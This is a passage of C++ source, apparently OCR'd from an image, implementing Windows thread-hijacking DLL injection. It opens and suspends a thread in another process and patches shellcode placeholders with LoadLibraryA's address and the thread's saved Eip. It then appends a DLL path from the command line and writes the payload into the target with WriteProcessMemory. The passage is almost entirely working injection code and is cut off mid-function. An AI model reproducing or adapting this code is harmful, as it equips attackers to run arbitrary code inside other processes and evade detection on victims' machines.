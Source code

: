 ```c++
        CloseHandle(hProcess);
        return -1;
    }
 
    printf("\nMemory allocated at %#x\n",mem);
    printf("\nOpening target thread handle.\n");
 
    hThread=OpenThread(THREAD_ALL_ACCESS,FALSE,te32.th32ThreadID);
 
    if(!hThread)
    {
        printf("\nError: Unable to open target thread handle (%d)\n",GetLastError());
         
        VirtualFreeEx(hProcess,mem,0,MEM_RELEASE);
        CloseHandle(hProcess);
        return -1;
    }
 
    printf("\nSuspending target thread.\n");
 
    SuspendThread(hThread);
    GetThreadContext(hThread,&ctx);
 
    buffer=VirtualAlloc(NULL,65536,MEM_COMMIT|MEM_RESERVE,PAGE_READWRITE);
    ptr=(LPBYTE)buffer;
 
    memcpy(buffer,code,sizeof(code));
 
    while(1)
    {
        if(*ptr==0xb8 && *(PDWORD)(ptr+1)==0xCCCCCCCC)
        {
            *(PDWORD)(ptr+1)=(DWORD)LoadLibraryA;
        }
 
        if(*ptr==0x68 && *(PDWORD)(ptr+1)==0xCCCCCCCC)
        {
            *(PDWORD)(ptr+1)=ctx.Eip;
        }
 
        if(*ptr==0xc3)
        {
            ptr++;
            break;
        }
 
        ptr++;
    }
 
    strcpy((char*)ptr,argv[2]);
    printf("\nWriting shellcode into target process.\n");
 
    if(!WriteProcessMemory(hProcess,mem,buffer,sizeof(code)+strlen((char*)ptr),NULL))
    {
        printf("\nError: Unable to write shellcode into target process (%d)\n",GetLastError());
 
        VirtualFreeEx(hProcess,mem,0,MEM_RELEASE);
        ResumeThread(hThread);
 
        CloseHandle(hThread);
        CloseHandle(hProcess);
 
        VirtualFree(buffer,0,MEM_RELEASE);
```